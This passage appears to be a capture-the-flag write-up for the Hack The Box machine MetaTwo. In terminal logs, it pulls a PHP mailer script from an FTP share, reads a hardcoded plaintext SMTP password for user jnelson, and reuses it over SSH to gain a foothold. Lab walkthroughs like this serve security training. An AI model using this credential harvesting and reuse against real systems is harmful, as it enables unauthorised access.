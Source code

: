 ```
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
226 Transfer complete
ftp> cd mailer
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||65037|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> get send_email.php
local: send_email.php remote: send_email.php
229 Entering Extended Passive Mode (|||58224|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
100% |*******************************************************************************************************************************************************|  1126       20.26 MiB/s    00:00 ETA
226 Transfer complete
1126 bytes received in 00:00 (46.65 KiB/s)
```

#### Find credentials of `jnelson` user in `send_email.php`
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ cat send_email.php 
<SNIP>
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   
<SNIP>
```

#### Gain initial foothold with found credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ ssh jnelson@metapress.htb
jnelson@metapress.htb's password: 
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jun 14 15:37:12 2025 from 10.10.14.157
jnelson@meta2:~$ id
uid=1000(jnelson) gid=1000(jnelson) groups=1000(jnelson)
```
